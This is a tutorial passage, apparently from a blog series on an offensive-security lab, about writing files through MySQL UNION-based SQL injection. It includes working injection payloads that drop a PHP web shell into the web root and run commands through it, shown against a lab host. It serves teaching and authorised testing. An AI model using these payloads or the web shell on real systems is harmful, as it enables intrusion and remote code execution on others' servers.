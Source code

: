 ```yaml
---
title: "SQLi Series  - Database Enumeration Write File - 09"
seoTitle: "SQLi Series: Database Enumeration & Writing Files"
seoDescription: "Learn to write files to a server via SQL injection, covering techniques, safety, and best practices in a step-by-step guide"
datePublished: Wed Apr 24 2024 03:11:51 GMT+0000 (Coordinated Universal Time)
cuid: clvd8nx5a000309l97j4o8911
slug: sqli-series-database-enumeration-write-file-09
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1713738609051/3a0aa7f2-a0db-421d-962f-52f2765a1df7.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1713738618627/8e2df5fa-61f1-491d-82dc-9d8bdf1ed81c.png

---
```


## **Objective:**

To provide a detailed, step-by-step guide on writing files to a back-end server through SQL injection vulnerabilities, enabling learners to fully understand and reproduce the techniques safely.

## **Introduction to File Writing in Modern DBMSes**

### **a) Explanation of the restrictions on file writing in modern DBMSes**

* Default disabling of file-write functionality
    
* Requirement of certain privileges for DBAs to write files
    

### **b) Importance of checking sufficient rights and DBMS file-writing allowance before attempting to write files**

## **Prerequisites for Writing Files in MySQL**

### **a) User with FILE privilege enabled**

* Explanation of the FILE privilege and its necessity for file writing
    

### **b) MySQL global secure\_file\_priv variable not enabled**

* Definition and purpose of the secure\_file\_priv variable
    
* Impact of different values (empty, specific directory, NULL) on file reading/writing capabilities
    

### **c) Write access to the target location on the back-end server**

* Importance of having proper write permissions for the desired file location
    

## **Checking the secure\_file\_priv Variable**

### **a) Using the SHOW VARIABLES statement in MySQL**

* Syntax: `SHOW VARIABLES LIKE 'secure_file_priv';`
    
* Explanation of the query's purpose
    

### **b) Retrieving the value using a SELECT statement in a UNION injection**

* Location of global variables in the INFORMATION\_SCHEMA database
    
* Structure of the global\_variables table (variable\_name and variable\_value columns)
    
* Constructing the SQL query to retrieve the secure\_file\_priv value
    

```sql

SELECT variable_name, variable_value FROM information_schema.global_variables WHERE variable_name="secure_file_priv"

```

### **c) Adapting the query for a UNION injection payload**

* Adding junk columns to match the total number of columns in the original query
    
* Example payload:
    

```sql

cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -

```

### **d) Interpreting the result and its impact on file reading/writing capabilities**

## **Using SELECT INTO OUTFILE for File Writing**

### **a) Explanation of the SELECT INTO OUTFILE statement**

* Purpose and common use cases (e.g., exporting data from tables)
    
* Syntax: `SELECT ... INTO OUTFILE '...'`
    

### **b) Examples of writing table content to a file**

* Selecting all columns from a table and writing to a file
    

```sql

SELECT * FROM users INTO OUTFILE '/tmp/credentials';

```

* Verifying the file content on the back-end server
    

### **c) Writing arbitrary data to a file using SELECT statements**

* Selecting a string value and writing it to a file
    

```sql

SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

```

* Verifying the file content and ownership on the back-end server
    

### **d) Tip: Using the FROM\_BASE64() function for advanced file exports, including binary data**

## **Writing Files through SQL Injection**

### **a) Attempting to write a text file to the web root directory**

* Constructing the query to write a test string to a file
    

```sql

SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'

```

* Adapting the query for a UNION injection payload
    

```sql

cn' UNION SELECT 1,'file written successfully!',3,4 INTO OUTFILE '/var/www/html/proof.txt'-- -

cn' union select 1,'test',3,4 into outfile '/tmp/test.txt'-- -
```

* Verifying the file's existence in the web root directory
    

### **b) Finding the web root directory**

* Using LOAD\_FILE to read server configuration files (Apache, Nginx, IIS)
    
* Searching online for possible configuration locations
    
* Running a fuzzing scan to test different potential web roots (Linux and Windows wordlists)
    
* Utilizing server errors to identify the web directory
    

### **c) Writing a PHP web shell**

* Constructing a simple PHP web shell payload
    

```php

<?php system($_REQUEST[0]); ?>

```

* Adapting the UNION injection payload to write the web shell
    

```sql

cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"","" INTO OUTFILE '/var/www/html/shell.php'-- -

```

* Verifying the web shell's existence and functionality by executing commands via the 0 parameter
    

```sql

http://SERVER_IP:PORT/shell.php?0=id

```

* Confirming code execution and identifying the running user (e.g., www-data)
    

```sql
<http://94.237.63.83:49004/shell.php?0=cat+../flag.txt>
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713738513041/9f4b97f6-80b9-4670-8ede-7b01f0dfe564.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713738518761/f31dce03-937d-449e-9bfc-448e2c89fc35.png align="left")

## **Best Practices and Safety Considerations**

* Always test in a controlled environment to avoid unintended consequences
    
* Use the techniques responsibly and only on systems you have explicit permission to test
    
* Properly secure and clean up any files written during testing
    
* Stay updated on the latest security patches and best practices for preventing SQL injection vulnerabilities
    

## **Checkpoint Exercise**

* Set up a vulnerable MySQL-based web application in a safe testing environment
    
* Attempt to write a text file to the web root using a UNION-based SQL injection payload
    
* Verify the file's existence and content on the back-end server
    
* Write a PHP web shell and confirm code execution by running a basic command
    

## **Conclusion**

* Recap of the key concepts and techniques covered in the guide
    
* Emphasis on the importance of continuous learning and staying updated with the latest security practices
    
* Encouragement to apply the acquired knowledge responsibly and ethically